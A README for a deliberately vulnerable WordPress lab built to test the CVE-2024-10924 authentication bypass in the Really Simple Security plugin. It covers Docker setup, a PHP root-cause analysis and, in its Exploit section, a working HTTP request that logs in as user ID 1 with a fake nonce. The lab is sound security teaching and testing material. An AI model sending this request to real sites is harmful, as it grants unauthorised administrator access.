# wordpress-really-simple-security-authn-bypass-vulnerable-application

This is a vulnerable application to test the exploit for the **Really Simple Security** < 9.1.2 authentication bypass (CVE-2024-10924).

## WARNING!

**This application contains serious security vulnerabilities. Run it at your own risk! It is recommended using a backed-up and sheltered environment (such as a VM with a recent snapshot and host-only networking). Do not upload this application to any Internet facing servers, as they will be compromised.**

***DISCLAIMER*: I do not take responsibility for the way in which any one uses this application. The only purpose of this application is to be a test scenario for the Really Simple Security < 9.1.2 authentication bypass (CVE-2024-10924) exploit and it should not be used maliciously. If your server is compromised via an installation of this application it is not my responsibility, it is the responsibility of the person(s) who uploaded and installed it.**

## Vulnerability info

* **CVE-ID**: CVE-2024-10924
* **Link**: [https://www.cve.org/CVERecord?id=CVE-2024-10924](https://www.cve.org/CVERecord?id=CVE-2024-10924)
* **Description**: This makes it possible for unauthenticated attackers to log in as any existing user on the site, such as an administrator, when the "*Two-Factor Authentication*" setting is enabled (disabled by default).
* **Fix:** [https://plugins.trac.wordpress.org/changeset/3188431/really-simple-ssl](https://plugins.trac.wordpress.org/changeset/3188431/really-simple-ssl)
* **Wordfence bulletin:** [https://www.wordfence.com/threat-intel/vulnerabilities/detail/really-simple-security-free-pro-and-pro-multisite-900-9111-authentication-bypass](https://www.wordfence.com/threat-intel/vulnerabilities/detail/really-simple-security-free-pro-and-pro-multisite-900-9111-authentication-bypass)

## Usage

Here the steps to **setup** the environment:
1. Launch `./up.sh` to start composition.
2. Complete the installation of WordPress here: [https://localhost:1337/wp-admin/install.php](http://localhost:1337/wp-admin/install.php).
3. Login into WordPress.
4. Go to "*Plugins*": [https://localhost:1337/wp-admin/plugins.php](http://localhost:1337/wp-admin/plugins.php).
5. Click on "*Activate*" under the "*Really Simple Security*" plugin. **DO NOT UPDATE IT**, since we need the vulnerable version.
6. Click on "*Cancel*" on the popup referring to SSL activation.
7. Go to "*Settings*" > "*Login Protection*" > "*Two-Factor Authentication*" and, in the "*Two-Factor Authentication*" section, enable "*Enable Two-Factor Authentication*".
8. Click the "*Save*" button.

The container will be called `vuln-wp-really-simple-security`.

To **teardown** the environment use `./down.sh` command or `./down_and_delete.sh` command to also remove images and the volume of the database.

## Root cause

Having a look at the [fix](https://github.com/Really-Simple-Plugins/really-simple-ssl/commit/33b6bae321f437f5d822e7d7e03103915530c86c#diff-826cac126398ce784274642e7be5f5214f94d72e6ae8ee07303b5d485587fdce), it's possible to understand that in the vulnerable version an error object was returned, in case of invalid login nonce, by the `check_login_and_get_user()` function, without aborting the whole operation.

```php
private function check_login_and_get_user( int $user_id, string $login_nonce ) {
    if ( ! Rsssl_Two_Fa_Authentication::verify_login_nonce( $user_id, $login_nonce ) ) {
        return new WP_REST_Response( array( 'error' => 'Invalid login nonce' ), 403 );
    }

    /**
     * Get the user by the user ID.
     *
     * @var WP_User $user
     */
    $user = get_user_by( 'id', $user_id );
    return $user;
}
```

In the caller, by the way no check was performed on the output of the `check_login_and_get_user()` function ([line 277](https://github.com/Really-Simple-Plugins/really-simple-ssl/blob/eb1ac89afa36661bfbb1992edc930fe809a9c88d/security/wordpress/two-fa/class-rsssl-two-factor-on-board-api.php#L277)), but simply going further with the `authenticate_and_redirect()` function ([line 278](https://github.com/Really-Simple-Plugins/really-simple-ssl/blob/eb1ac89afa36661bfbb1992edc930fe809a9c88d/security/wordpress/two-fa/class-rsssl-two-factor-on-board-api.php#L278)) using the same value received from input for the user ID.

```php
public function skip_onboarding( WP_REST_Request $request ): WP_REST_Response {
	$parameters = new Rsssl_Request_Parameters( $request );
	// As a double we check the user_id with the login nonce.
	$user = $this->check_login_and_get_user( (int)$parameters->user_id, $parameters->login_nonce );
	return $this->authenticate_and_redirect( $parameters->user_id, $parameters->redirect_to );
}
```

## Exploit

To exploit the vulnerability, a request like the following is sufficient.

```http
POST /?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding HTTP/1.1
Host: localhost:1337
Content-Type: application/json
Content-Length: 88
Connection: keep-alive

{
    "user_id": 1,
    "login_nonce": "133333337",
    "redirect_to": "/wp-admin/"
}
```

Then setting accordingly the returned session cookies in the browser.

## Authors

* **Antonio Francesco Sardella** - *implementation* - [m3ssap0](https://github.com/m3ssap0)

## License

This project is licensed under the Unlicense - see the **LICENSE** file for details.

## Acknowledgments

* [**István Márton**](https://www.wordfence.com/threat-intel/vulnerabilities/detail/really-simple-security-free-pro-and-pro-multisite-900-9111-authentication-bypass), the security researcher who discovered the vulnerability.
